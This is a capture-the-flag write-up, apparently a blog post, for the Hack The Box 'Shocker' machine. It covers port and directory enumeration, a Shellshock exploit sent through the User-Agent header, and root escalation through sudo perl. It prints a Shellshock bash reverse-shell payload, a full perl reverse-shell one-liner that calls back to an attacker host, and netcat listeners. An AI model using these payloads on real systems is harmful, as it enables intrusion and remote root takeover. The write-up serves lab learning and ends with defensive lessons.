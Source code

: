 # Shocker Writeup w/o Metasploit

![](../images/max/587/1*IwGZZRtSA2MqDSXN3n2y2A.png)

## Reconnaissance <a id="0c77"></a>

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```text
nmap -sC -sV -O -oA htb/shocker/nmap/initial 10.10.10.56
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-O**: detect OS
* **-oA**: output all formats and store in file _nmap/initial_

We get back the following result showing that two ports are open:

* **Port 80:** running Apache httpd 2.4.18
* **Port 2222**: running OpenSSH 7.2p2

![](../images/max/972/1*PcNNXBpye-H5vlFeaQghfQ.png)

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```text
nmap -sC -sV -O -p- -oA htb/shocker/nmap/full 10.10.10.56
```

We get back the following result. No other ports are open.

![](../images/max/923/1*TacUWBb8bSBVsq384AXb5w.png)

Similarly, we run an nmap scan with the **-sU** flag enabled to run a UDP scan.

```text
nmap -sU -O -p- -oA htb/shocker/nmap/udp 10.10.10.56
```

I managed to root the box and write this blog, while this UDP scan still did not terminate. So for this blog, I don’t have the UDP scan results.

## Enumeration <a id="f5f0"></a>

Let’s enumerate more on the open ports.

SearchSploit does not generate any useful exploits that we can use.

```text
searchsploit --id httpd
searchsploit --id openssh 7.2p2
```

Next, visit the Apache server on the browser.

![](../images/max/531/1*I00OLAoXTWHX2f27MlC60Q.png)

We get a page that does not have links to any other pages. Therefore, we’ll run Gobuster to enumerate directories.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56
```

This leads us to another dead end. It only discovered one directory that we don’t have access to.

![](../images/max/1078/1*S6OcwFwUtKpzCCoz5gZA5w.png)

Given the name of the machine, I have a suspicion that it is vulnerable to the Shellshock bash remote code execution vulnerability. This vulnerability affected web servers utilizing CGI \(Common Gateway Interface\), which is a system for generating dynamic web content. This usually involved directories such as /cgi-sys, /cgi-mod, /cgi-bin, etc. I’ll manually try them on the web server to see if they exist.

/cgi-sys and /cgi-mod do not exist on the web server. However /cgi-bin does. It was interesting to note the behaviour of the web server when I add /cgi-bin versus /cgi-bin/ to the URL path.

![](../images/max/1120/1*JvOVBcuFii3gWaazQhP2pQ.png)

/cgi-bin/ gave me a 403 \(you don’t have access to this resource\) and /cgi-bin gave me a 404 \(resource not found\). It seems that if we don’t add the “/” at the end of the URL, the server is interpreting it as a file instead of a directory \(maybe, I’m not too sure\).

Now it makes sense why Gobuster did not find the directory. It checked the url “10.10.10.56/cgi-bin”, got a 404 and therefore didn’t report it. The “-f” flag appends “/” to each request. So let’s run Gobuster again.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56 -f
```

It finds the directory!

![](../images/max/1129/1*Yjq0Plgf6Qp225SB2kchcQ.png)

Now we need to enumerate more on the /cgi-bin/ directory. I’ll look for files with extensions “sh” and “cgi”.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56/cgi-bin/ -x sh,cgi
```

* **-x**: file extensions to search for

![](../images/max/1181/1*8T89q13HIQDm_qSH2S0Ahg.png)

I get back a bash script \(user.sh\). When I visit the URL, it prompts me to download the file.

![](../images/max/536/1*QMIi7XxN5PhTCPSA-BE8KQ.png)

Opening the file shows us the following content.

![](../images/max/610/1*-fW0N1kfcO3WO5GV8_nP7Q.png)

Fire up burp and intercept the request to the bash script. The send it to Repeater.

![](../images/max/952/1*mOZJLz4zlo39yGYVJUiJHg.png)

The above image shows the request to the bash script and the response we get from the server. Now let’s try to see if it is vulnerable to shellshock.

## Gaining an Initial Foothold <a id="11da"></a>

I googled “shellshock reverse shell” and found this [blog](http://www.fantaghost.com/exploiting-shellshock-getting-reverse-shell) explaining how to exploit the shellshock vulnerability to get a reverse shell on the system the web server is running on.

First add the following string in the User Agent field in Burp.

```text
() { ignored;};/bin/bash -i >& /dev/10.10.14.6/4444/port 0>&1
```

Then start up a listener on your attack machine using the same configuration in the above string.

```text
nc -nlvp 4444
```

Go back to Burp and execute the request.

![](../images/max/826/1*R_U6_V9WN-4hZH5Qmi9Rzw.png)

Burp shouldn’t give you a response if the exploit worked. Go back to your listener and check if you got a shell back.

![](../images/max/561/1*6kwwtFfspkld_ybhtoMSfA.png)

We got back a low privileged shell! Grab the user flag.

![](../images/max/497/1*DZq0am-ZhF7iiZKUuDli9w.png)

It’s time to escalate privileges.

## Privilege Escalation <a id="cb6c"></a>

Run the following command to determine what permissions you have.

```text
sudo -l
```

![](../images/max/889/1*v11VtaF_bxBLav44Ldqwlw.png)

Yikes, I can run perl as root! Well, it’s yay for me and yikes for the system administrator. If I use perl to send a reverse shell back to my machine it will get executed with the same privileges that perl is running in. So if I run perl with sudo privileges, I’ll get back a reverse shell with root privileges.

Go to [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and grab the perl code for a reverse shell. Don’t forget to add sudo at the beginning.

```text
sudo perl -e 'use Socket;$i="10.10.14.6";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Before you execute the code, start up a listener on your attack machine with the same configuration as the above code.

```text
nc -nlvp 1234
```

Execute the code and we have root!

![](../images/max/627/1*PYbSwujwW-2slcj_OyzJJA.png)

Grab the root flag.

![](../images/max/418/1*9cqlYBxat0eGud-WkxJrdw.png)

## Lessons Learned <a id="e94d"></a>

I’ve never seen or had to use the “-f” flag with Gobuster, so that was something new that I learned while solving this box. I’ll definitely keep it in mind when I solve future boxes.

As for vulnerabilities, I counted three. The first being a web server insecure misconfiguration. I wasn’t allowed to access the /cgi-bin directory but for some reason I was allowed to access the user.sh file inside of that directory. The administrator should have restricted access to all the files in the directory.

The second vulnerability is that the web server was executing bash commands on a system that was running a version of Bash that was vulnerable to the Shellshock vulnerability. This allowed us to gain initial access to the system. Of course a patch is available and the administrator should have patched his system.

The third vulnerability is insecure system configuration. You should always conform to the principle of least privilege and the concept of separation of privileges. Giving the user sudo access to run perl, allowed me \(the attacker\) to escalate privileges.

